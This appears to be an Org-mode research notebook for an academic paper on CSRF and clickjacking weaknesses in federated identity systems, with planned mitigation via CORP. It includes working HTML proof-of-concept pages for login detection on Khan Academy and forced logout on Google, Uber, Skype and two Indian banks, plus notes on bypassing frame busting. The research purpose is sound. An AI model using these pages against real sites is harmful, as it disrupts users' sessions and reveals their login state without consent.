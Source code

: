 * Paper Outline
** Working Title: Modeling and Mitigation of CSRF Attacks on FIM
- Summary of Abstract
** TODO Abstract
1/2 page
- Summary of Intro
*** Working Abstract:
Our abstract for now(verify) is something like this: we are showing that FIM is
not an all-encompassing security measure. CSRF attacks can still be carried out
on the application as that isnt even part of the model(here demo of regular
csrf attacks on intentionally vulnerable website). In addition FIM is weak to
another csrf attack: logout. Both these problems can be mitigted(hopefully)
using corp
** Introduction
- 2-3 pages
- Summary of paper
- Motivation
- Related Work
- 
** Motivation(Pitch)
- Why is it important
** Related Work
** Method and Technique
- What is FIM
** Modeling
- How we modeled it alloy
** Experimentation
- Implementation of experiments
** Conclusion
** Future Outlook





* Experiment
** Generic
*** Vulnerabilities Check
**** CSRF
**** Click jacking
**** cross site timing attack
- Mitigate atacks using corp extension. 
how: 
- fix one website, then based on e
*** Mitigation tests
- using corp extension

  
* Mitigation
Check with corp extension in chrome

* Robin Linus
- all the websits which use FIM, are vulnerable to click jacking which they are
  on the robin linus site.



* Cross-Site Timing Attack
- Use with Khanacademy: if logged in logo will show up else not;.
#+BEGIN_SRC html :tangle khanacademychecklogin.html
<html>
  <head><title>Khanacademy Check Login Attack</title></head>
  <body>
    <img src="https://www.khanacademy.org/login?continue=%2Ffavicon.ico"/>
  </body>
  
</html>
#+END_SRC
* Attack Khanacademy Logout:
#+BEGIN_SRC html :tangle khanacademylogout.html
<html>
<head><title>Khanacademy Logout Attack</title></head>
<body>
<img src="https://khanacademy.org/logout?contine=/"/>
</body>
</html>
#+END_SRC
* Attack Google Logout
#+BEGIN_SRC html :tangle googlelogout.html
<html>
<head><title>Google Logout Attack</title></head>
<body>
<img src="https://accounts.google.com/Logout"/>
</body>
</html>
#+END_SRC
* Uber logout
#+BEGIN_SRC html :tangle  uberlogout.html
<html>
<head><title>Uber Logout</title></head>
<body>
<img src="https://riders.uber.com/logout"/>
</body>
</html>
#+END_SRC
* Skype logout
#+BEGIN_SRC html :tangle skypelogout.html
<html>
<head><title>Skype Logout</title></head>
<body>
<img src="https://secure.skype.com/portal/logout"/>
</body>
</html>
#+END_SRC
<<<<<<< HEAD
* Super logout
#+BEGIN_EXAMPLE
https://superlogout.com
#+END_EXAMPLE
* SBI logout
#+BEGIN_SRC html :tangle sbilogout.html
<html>
<head><title>SBI Logout</title></head>
<body>
<img src="https://retail.onlinesbi.com/retail/logout.htm"/>
</body>
</html>
#+END_SRC
* IOB logout
#+BEGIN_SRC html :tangle ioblogout.html
<html>
<head><title>IOB Logout</title></head>
<body>
<img src="https://www.iobnet.co.in/ibanking/logout.do">
</body>
</html>
#+END_SRC


* Read on clickjacking
** Busting Frame Busting:a Study of Clickjacking Vulnerabilities on Popular Sites
This paper was published in 2010 . It shows many vulnerability in sites at those times 
and how clickjacking cannot be stopped just by frame busting and new policies must be 
added into our web.

*** Frame bursting example
 i f ( top . location   !=   self.location ){
top .location = self.location ;
}


*** Methods against frame bursting
  1.Use the window.onbeforeunload function to not unload a frame
    1.1 this can be done by asking the user "to not leave page"(alert box) 
    1.2 Flushing the request to unload by stopping the unload request by continuously calling this window.onbeforeunload\
  2.Disable js (both inline and external )
    2.1 inline by by using XSS filters to not allow these scripts
    2.2 External by simplying disable js

  
  3.By passing the Regular expressions in frame busting js 
    By just placing the domian of the victim in the url

  4.Changing the value of location as  it can be redefined

  5.Security="restricted"

** Faults in XFO
   1.Per page specification
   2.One-type domain allowed per page 
   3. *Proxies can remove headers*


** XFO Headers 
   meta tags to make website more secrue by only allowing only some iframes(Cross origin request) 
   using the value specified in the header
*** Value of the header
    1.DENY
    2.SAMEORIGIN
    3.ALLOWED-FROM

 

** X-Content-type
   headers which specify what kind of file is being loaded by a particular request
   eg. text/plain,text/html,images/jpeg

* Websites to check if CORP can protect from csrf
- http://www.itsecgames.com/ (bwapp: buggy web app)
- http://www.dvwa.co.uk/ (dvwa: damn vulnerable web app)
* FIM systems: for each try find an example
https://link.springer.com/content/pdf/10.1007/978-3-642-03829-7.pdf#page=104
** Microsoft's .NET Passport (old)
** UK Athens (old)
** Shibboleth
** CardSpace

